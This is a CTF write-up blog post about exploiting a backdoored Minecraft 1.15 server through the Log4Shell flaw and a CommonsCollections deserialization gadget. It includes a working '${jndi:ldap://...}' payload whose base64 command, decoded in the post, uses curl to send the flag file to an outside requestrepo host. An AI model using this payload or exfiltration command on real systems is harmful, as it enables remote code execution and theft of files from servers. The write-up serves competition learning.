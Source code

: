 ```yaml
---
title: KMA CTF 2022
date: 2022-06-24 20:00:00 
layout: post
categories: CTF
tags: [CTF]
toc: true
---
```


## Mineme

[+] Download [SOURCE_CODE](https://drive.google.com/uc?id=1PFppvmsCi3VC3p4_a-ZXdl9J8lB1xck4&export=download)

[+] Description of challenge

![img](https://i.imgur.com/Qezua1Q.png)

- The frist download MineCraft [tlauncher](https://tlauncher.org/)
- Server game `149.28.135.96:13337`

### Setup

- After downloading `Tlaucher` to run the game, you need to choose the correct `version 1.15` as below, because the server is provided as `server_1.15`
  ![](https://i.imgur.com/LpYtSL2.png)

- Continue to the `mutiplayer` section to add your server or the author.

- To run the server in localhost, you can use the dockerfile that the author provides or runs files `server_1.15.jar`
  ![](https://i.imgur.com/63O4Sgt.png)
- After running the file server_1.15.jar, the results will be. Server will be localhost: 25565

## Analysis

- After I opened the file `server_1.15.jar` with `JD-GUI`, it was quite shocked because too much `class`, because I never tried to see the server of Minecarft Code. Now that I go to read each class, it's a bit tired, so I decided to go to Google to read some articles about Minecarft's server.

- Because the description mentioned backdoor, I download another server on the internet, namely `version 1.15.2` to `DIFF`.

- Command used `diff` by `IntelliJ`
  ![](https://i.imgur.com/PkFg5CF.png)
- After surfing, there is no difference that is related to this challenge exploitation, only one thing is worth noting in the author's file provided, with adding `collection` => may be related to `Deserialize`
  ![](https://i.imgur.com/xvqckgO.png)

- One more thing is that the `Log4j` vulnerability when public is available, the articles also mention Minecarft influenced by this vulnerability. So here I tried `Trigger Log4J` to see if it was successful.

![](https://i.imgur.com/BJg1eMZ.png)

- Try chat with payload `Log4j `then realize that there is a DNS return => The program has a `log4j vulnerability`
  ![](https://i.imgur.com/LrhvH10.png)

### Exploitation

- If trigger was `Log4j`, I continued to need RCE to get the flag. I use `JNDIExploit` tool with `Basic Queries`, I can't `RCE`.

- Above when I `diff`, there is `collection` => may be related to `Deserialize`. So in this tool has some part to create Payload with the Gadget.
  ![](https://i.imgur.com/qZfsgaT.png)

- First, I tried with `Payload URLDNS` and `CommonsCollectionsK1 /DNSLOG`, I saw `DNS` to the domain, but when running with `CommonsCollectionsK2` to RCE, it was not working again.
- I decided to fix the payload of `CommonsCollectionsK1` from`ldap://[IP_VPS]:1389/Deserialization/CommonsCollectionsK1/Dnslog/` to `ldap://[IP_VPS]:1389/Deserialization/CommonsCollectionsK1/Command/Base64/Y3VybCAtZCBAL2ZsYWcgaHR0cDovL3N1cWw0bWF0LnJlcXVlc3RyZXBvLmNvbQ==`

[+] Run tool command
![](https://i.imgur.com/XXrWUVy.png)

- Change your IP vps into red point

- Send payload to get flag

```
${jndi:ldap://165.22.109.11:1389/Deserialization/CommonsCollectionsK1/Command/Base64/Y3VybCAtZCBAL2ZsYWcgaHR0cDovL3N1cWw0bWF0LnJlcXVlc3RyZXBvLmNvbQ==}
```

- In `3VybCAtZCBAL2ZsYWcgaHR0cDovL3N1cWw0bWF0LnJlcXVlc3RyZXBvLmNvbQ==`  is `curl -d @/flag http://suql4mat.requestrepo.com`

![](https://i.imgur.com/s9eRtsA.png)
#### Challenge Pwned
FLAG `KMACTF{log4shell_go_bruh_bruh!!!}`
